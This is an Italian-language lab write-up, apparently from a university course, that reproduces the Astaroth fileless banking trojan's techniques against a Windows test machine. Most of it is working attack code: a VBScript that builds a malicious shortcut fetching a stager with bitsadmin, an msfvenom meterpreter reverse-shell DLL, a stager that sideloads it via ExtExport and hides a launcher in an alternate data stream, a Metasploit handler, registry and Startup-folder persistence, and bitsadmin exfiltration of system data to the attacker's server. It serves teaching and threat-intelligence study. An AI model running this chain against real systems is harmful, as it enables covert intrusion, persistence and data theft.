








# 5. CyberThreatIntelligence

In questo laboratorio viene esplorato il malware Astaroth per estrarre informazioni e attaccare una macchina vittima

Astaroth è un Trojan bancario e un Infostealer, la cui caratteristica principale è quella di essere una minaccia "fileless" (senza file). Astaroth usa un approccio fileless, sfruttando processi di sistema pienamente legittimi, rendendolo un malware estremamente difficile da rilevare per i classici software antivirus basati sulle firme.

Il suo ciclo di utilizzo tipico avviene in queste fasi:

1. Infezione iniziale (Spear-phishing): La vittima riceve un'e-mail fraudolenta molto mirata (es. finte fatture o documenti legali in formato ZIP, file LNK o HTML). Cliccando sul link o sul file, si innesca la catena.

2. Approccio "Living-off-the-Land" (LotL): Per scaricarsi ed eseguirsi senza farsi notare, il malware sfrutta solo strumenti di sistema di Windows preinstallati e pienamente legittimi. Inizialmente usava WMIC per eseguire script; nelle varianti più recenti (2020) abusa dello strumento ExtExport.exe (legato a Internet Explorer) per caricare i propri moduli.

3. Occultamento nei file di sistema: I payload scaricati non vengono salvati normalmente, ma nascosti all'interno degli Alternate Data Streams (ADS) di file come desktop.ini. In questo modo, i dati malevoli risultano del tutto invisibili da Esplora File.

4. Furto e manipolazione: Una volta iniettato silenziosamente nella memoria, Astaroth ruba le password salvate sui browser, le password delle e-mail, registra i tasti premuti e permette all'attaccante di visualizzare e manipolare la navigazione web, sovrapponendo finestre false al browser quando l'utente visita il sito della propria banca. Le configurazioni di comando e controllo (C2) vengono talvolta nascoste in testi cifrati.

Per questo laboratorio, vengono usate una macchina Windows vittima e una macchina Linux attaccante
## 5.1 Deploying Astaroth
Nel primo passaggio vediamo come si è implementato il malware nella macchina vittima Windows. Il nostro focus non si concentra però sulla consegna del malware stesso, bensì osservare i suoi effetti e come si riesce ad ottenere il controllo della macchina. In questo senso, assumiamo che il 

Infatti, il primo step è quello di creare un file .VBScript per la creazione di un file .lnk, che verrà poi utilizzato per l'attacco.

ai fini di semplicità, viene scaricato il file .vbs aprendo un server nella macchina attaccante Linux

`sudo python3 -m http.server 8080`

<p align="center">
  
</p>

Cliccando questo file, avviene l'eseguibile. Il file .vbs contiene il seguente codice
<p align="center">
  
</p>


```shell
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "clickme.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\Windows\System32\cmd.exe"
oLink.Arguments = "/c bitsadmin /transfer mystager /priority FOREGROUND http://192.168.159.132:8080/stager.cmd C:\Users\Public\Libraries\stager.cmd & call C:\Users\Public\Libraries\stager.cmd & del C:\Users\Public\Libraries\stager.cmd"
oLink.Save
```
Possiamo osservare che

1. In Windows, ogni componente viene vista come un ogetto. In questo caso, tramite la visione a ogetti, stiamo dando l'aspetto legittimo a un collegamento a una shell, chiamato clickme, a cui viene passato come parametro un comando a perfetta insaputa della vittima
2. Il comando richiama l'eseguibile bitsadmin. Questo è il primo LOLBin che verrà utilizzato. Questo è un servizio di sistema che gestisce il download e l'upload di file in background, come ad esempio aggiornamenti Windows. In questo caso, però, viene richiamato un file stager, che utilizzeremo più tardi

Il prossimo passaggio è quello di creare il payload. In questo caso scegliamo meterpreter, una reverse shell che funziona su windows, da cui possiamo dare successivamente altri comandi

```bash
# ottenere l'indirizzo ip della macchina attaccante
ip a
# usarlo come parametro per la creazione del payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.159.132 LPORT=4444 -f dll -o payload.dll
```
Successivamente, va configurato il file stager. Questo file è il cuore pulsante dell'attacco. Al suo avvio, avvengono quattro azioni

1. Viene scaricato, sempre con l'uso di bitsadmin, il payload appena generato tramite metasploit. Viene inserito all'interno della cartaella `C:\Users\Public\Libraries` e denominato `sqlite3.dll`.
2. Viene generato un nuovo oggetto Wscript.shell, in questo caso però viene effettuato il side-loading del payload rinominato precedentemente. 
3. Viene eseguito il secondo LOLBin abusato in questo attacco, ovvero ExtExport, un' utilità all'interno di Internet Explorer che effettua sideloading di specifici file binari, tra cui `sqlite3.dll`. In questo caso, però, viene effettuato il side-loading di un binario malevolo. Come parametro viene indicato il percorso in cui è situato il binario, seguito da due stringhe arbitrarie
4. Il tutto viene inserito ed eseguito all'interno di un Alternative Data Stream. Questi sono attributi aggiuntivi dei file, non visibili agli utenti, che possono memorizzare dati arbitrari per nascondere file da rilevamenti. In questo caso, il tutto viene occultato come se fosse un ADS di desktop.ini, all'interno del percorso `C:\Users\Public\`


```cmd

@echo off

setlocal enabledelayedexpansion

set PATH_LAUNCHER_ADS=C:\Users\Public\desktop.ini:launcher.vbs


start /b bitsadmin /transfer payload /priority FOREGROUND http://192.168.159.132:8080/payload.dll C:\Users\Public\Libraries\sqlite3.dll 


rem Call "C:\Program Files (x86)\Internet Explorer\Extexport.exe" from this script.
rem As first parameter, use the path "C:\Users\Public\Libraries".
rem As second and third parameters, use two random strings (such as "bla bla").

echo Dim objShell > %PATH_LAUNCHER_ADS%
echo Set objShell = WScript.CreateObject("WScript.Shell") >> %PATH_LAUNCHER_ADS%
echo Set oExec = objShell.Exec("C:\\Program Files (x86)\\Internet Explorer\\ExtExport.exe C:\\Users\\Public\\Libraries bla1 bla2") >> %PATH_LAUNCHER_ADS%
echo Set objShell = Nothing >> %PATH_LAUNCHER_ADS%


rem This will execute the hidden launcher from the ADS
cscript "%PATH_LAUNCHER_ADS%"
```

Una volta eseguito il tutto, possiamo osservare nel percorso `C:\User\Public` la creazione dell'ADS

<p align="center">
  
</p>

Infine, non resta altro che aprire un listener di meterpreter nella macchina attaccante tramite Metasploit e prendere il controllo della macchina vittima
```Bash
msfconsole
(...)
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.159.132
LHOST => 192.168.159.132
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit
```

<p align="center">
  
</p>

## 5.2 ATT&CK

La catena di attacco Astaroth copre svariate tattiche e tecniche classificate dal framework MITRE ATT&CK. Vengono sottolineati quelli riscontrati all'interno dell'attacco implementato in questo laboratorio

- **Initial Access (Accesso Iniziale):**
    - <ins>**T1192 - Spearphishing Link / T1023 - Shortcut Modification**</ins>: Uso di email con link fasulli che portano a file LNK (collegamenti) modificati per lanciare comandi dannosi.

- **Execution:**

    - <ins>**T1047 - Windows Management Instrumentation (WMI):</ins>** Uso iniziale di WMIC per forzare il download di script invisibili(nel punto 5.3).
    - **T1220 - XSL Script Processing / T1064 - Scripting:** Esecuzione di JavaScript offuscato sfruttato per orchestrare le fasi successive.

- **Defense Evasion :**
    - **T1027 - Obfuscated Files or Information / T1140 - Deobfuscate/Decode Files:** I moduli scaricati sono criptati (in Base64 o algoritmi XOR personalizzati) e vengono decodificati usando lo strumento legittimo di Windows Certutil.
    - <ins>**T1564.004 - NTFS Alternate Data Streams (ADS):**</ins> Nascondere i binari malevoli come flussi di dati secondari in file di sistema (es. desktop.ini).
    - <ins>**T1117 - Regsvr32 / T1129 - Execution Through Module Load**</ins>: Abuso di file di sistema come Regsvr32 o ExtExport.exe per caricare di nascosto librerie dinamiche (DLL).
    - **T1055.012 - Process Hollowing**: Svuotare la memoria di un processo legittimo (es. userinit.exe o svchost.exe) e iniettarvi il payload malevolo finale direttamente nella memoria (in-memory injection).

- **Command and Control ):**

    -<ins> **T1197 - BITS Jobs**: </ins> Abuso del tool BITSadmin (Background Intelligent Transfer Service), normalmente usato da Windows per gli aggiornamenti, per scaricare furtivamente i payload dal server dell'attaccante.

## 5.3 Persistance
Dopo esser riusciti a entrare nella macchina vittima, possiamo ancora sfruttare i LOLBin per creare una sessione persistente. Questo viene sempre ottenuto mediante il metodo citato prima, ma va modificato lo stager, al fine di inserire il C2 nei processi di avvio del sistema operativo della macchina vittima.

Per fare questo, bisogna

1. Inserire il processo malevolo all'interno della cartella di applicazioni scelte all'avvio
2. Inserire all'interno delle chiavi di registro il percorso del processo stesso

<p align="center">
  
</p>

La chiave del registro da modificare per ottenere questo è la `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders`

Allo stager vengono quindi aggiunte le seguenti righe

```Bash
set PATH_LAUNCHER_BAT=C:\Users\Public\launcher.bat
echo cscript "%PATH_LAUNCHER_ADS%" > %PATH_LAUNCHER_BAT%


copy %PATH_LAUNCHER_BAT% "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\launcher.bat"

REG ADD "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders" /f /v StartUp /t REG_SZ /d %PATH_LAUNCHER_BAT%

```

Viene creato un file batch tramite la copia dall'ADS precedentemente generato all'interno di `C:\Users\Public`, copiato nella cartella di processi da avviare allo startup, e aggiunta la chiave di registro ai processi di startup

Dopo aver avviato lo stager con le stesse modalità del punto 5.1, possiamo osservare gli indicatori di compromissione per cui il processo batch è stato creato, è presente e può essere avviato insieme al sistema operativo, ottenendo così la persistenza

<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>

## 5.4 WMI server 

WMI permette la raccolta di informazioni per quanto riguarda lo stato della macchina. Può anche essere usato per preparare ed eseguire del codice maliszioso

Per sfruttare ciò, una volta ottenuto l'accesso alla macchina vittima, apriamo un server BITS per ricevere ed esfiltrare dati. Il server utilizzato è il [`simpleBITSServer.py`](https://github.com/sebastianosrt/Python3-SimpleBITSServer)

 `python3 SimpleBITSServer.py 4231`

Dopodiché, sfruttando meterpreter, apriamo una reverse shell e inseriamo i due seguenti comandi

```Shell

 (echo OS INFORMATION: & wmic os get Caption, Version, BuildNumber, InstallDate /format:csv & echo. & echo PROCESS LIST: & wmic process get Name, ProcessId, ParentProcessId, ExecutablePath /format:csv) | find /v "" > C:\Users\unina\Desktop\system_info.txt

bitsadmin /transfer test /priority HIGH /upload http://192.168.159.132:4231/system_info.txt C:\Users\unina\Desktop\system_info.txt
```

Il primo comando permette di ottenere informazioni inerenti al sistema operativo, il secondo i vari processi in esecuzione. Il tutto viene codificato per essere compatibile con Linux e inserito all'interno di un file di testo, che viene caricato al server BITS aperto.


